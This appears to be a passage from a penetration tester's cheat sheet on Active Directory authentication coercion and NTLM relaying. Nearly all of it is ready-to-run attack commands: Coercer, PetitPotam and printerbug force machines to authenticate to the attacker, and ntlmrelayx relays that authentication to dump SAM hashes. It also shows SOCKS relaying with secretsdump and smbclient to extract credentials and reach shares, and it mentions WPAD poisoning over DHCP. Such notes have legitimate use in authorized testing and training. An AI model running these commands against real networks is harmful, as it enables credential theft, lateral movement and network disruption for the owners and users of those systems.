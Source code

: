 #### Force auth to attacker IP
```
python3 Coercer.py coerse -L <ATTACKER IP> -t <TARGET IP> -u <USER> -p <PASSWORD> -d <DOMAIN>
```

#### WEBDAV auth
- https://github.com/topotam/PetitPotam
- https://github.com/dirkjanm/krbrelayx
- Creates a ```[WebDAV] NTLMv2 Hash``` in responder, ```HTTPD: received``` in ntlmrelayx. Can be used against relaying to ldap, ldaps.
- Will authenticate to our attacking machine as the computer account. Can be used for RBCD.
```
python3 PetitPotam.py -d <DOMAIN> -u <USER> -p <PASSWORD> <HOSTNAME ATTACKER MACHINE>@80/a <TARGET>

python3 printerbug.py <DOMAIN>/<USER>@<TARGET> <HOSTNAME ATTACKER MACHINE>@80/a
```

## Relaying
### SMB relaying
- Requirement: Only possible to hosts without SMB Signing

#### Check for SMB hosts without SMB signing
```
crackmapexec smb <IP RANGE> --gen-relay-list smb_hosts_nosigning.txt
```

#### Relay requests SMB and dump SAM
- We have to modify the ```/etc/responder/Responder.conf``` file and disable the HTTP and SMB servers (as NTLM relay will be our SMB and HTTP server).
- the ```-d``` flag has now been changed from “Enable answers for NETBIOS domain suffix queries. Answering to domain suffixes will likely break stuff on the network. Default: False” to “Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response. Default: False”. It should also be noted that ```-d``` as it is now CAN have an impact on your client’s network, as you are effectively poisoning the WPAD file over DHCP, which does not always revert back immediately once you stop the attack. It will likely require a reboot.
```
ntlmrelayx.py -tf smb_hosts_nosigning.txt -smb2support
```

#### Relay requests SMB and keep SMB sessions open
- Use the ```socks``` option to be able to use the ```socks``` command to get a nice overview of the relayed attempts. It will also keep the SMB connection open indefinitely. 
- The file `smb_hosts_nosigning.txt` should only contain IP's, FQDN doesn't work, see [issue](https://github.com/fortra/impacket/issues/642)
```
ntlmrelayx.py -tf smb_hosts_nosigning.txt -socks -smb2support

# Get overview of all relay attempts
ntlmrelayx> socks

# Change socks proxy
sudo vim /etc/proxychains4.conf
socks4 127.0.0.1 1080

# Use proxychains and it will ignore the password value and use the relay credential instead
proxychains python3 secretsdump.py <DOMAIN>/<USER>:IDontCareAboutPassword@<TARGET>

# Also possible to access shares on the network, for example if user is not local admin
proxychains python3 smbclient.py <DOMAIN>/<USER>:IDontCareAboutPassword@<TARGET>
```

